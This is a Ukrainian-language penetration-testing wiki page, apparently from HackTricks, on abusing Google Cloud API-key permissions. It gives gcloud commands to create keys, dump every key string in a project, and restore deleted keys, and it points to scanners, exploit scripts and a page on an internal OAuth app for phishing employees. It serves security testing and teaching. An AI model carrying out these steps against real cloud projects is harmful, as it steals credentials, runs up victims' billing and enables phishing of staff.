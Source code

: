 # GCP - Apikeys Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apikeys

Наступні дозволи корисні для створення та викрадення API ключів, зверніть увагу на це з документації: _API ключ - це простий зашифрований рядок, який **ідентифікує додаток без будь-якого принципала**. Вони корисні для доступу до **публічних даних анонімно** і використовуються для **асоціювання** запитів API з вашим проектом для квоти та **білінгу**._

Отже, з API ключем ви можете змусити компанію платити за ваше використання API, але ви не зможете підвищити привілеї.

Для отримання додаткової інформації про API ключі перегляньте:

{{#ref}}
../gcp-services/gcp-api-keys-enum.md
{{#endref}}

Для інших способів створення API ключів перегляньте:

{{#ref}}
gcp-serviceusage-privesc.md
{{#endref}}

### Brute Force API Key access <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Оскільки ви, можливо, не знаєте, які API активовані в проекті або які обмеження застосовані до знайденого API ключа, було б цікаво запустити інструмент [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) і перевірити **до чого ви можете отримати доступ з API ключем.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Цей дозвіл дозволяє **створити API ключ**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/b-apikeys.keys.create.sh).

> [!CAUTION]
> Зверніть увагу, що за замовчуванням користувачі мають дозволи на створення нових проектів і їм надається роль Власника над новим проектом. Тому користувач може c**творити проект і API ключ всередині цього проекту**.

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Ці дозволи дозволяють **переглядати та отримувати всі apiKeys і отримувати Ключ**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Ви можете знайти скрипт для автоматизації [**створення, експлуатації та очищення вразливого середовища тут**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Ці дозволи дозволяють вам **переглядати та відновлювати видалені ключі API**. **Ключ API надається у виході** після завершення **відновлення**:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Створіть внутрішній OAuth-додаток для фішингу інших працівників

Перегляньте наступну сторінку, щоб дізнатися, як це зробити, хоча ця дія належить до служби **`clientauthconfig`** [згідно з документацією](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{{#ref}}
../../workspace-security/gws-google-platforms-phishing/
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
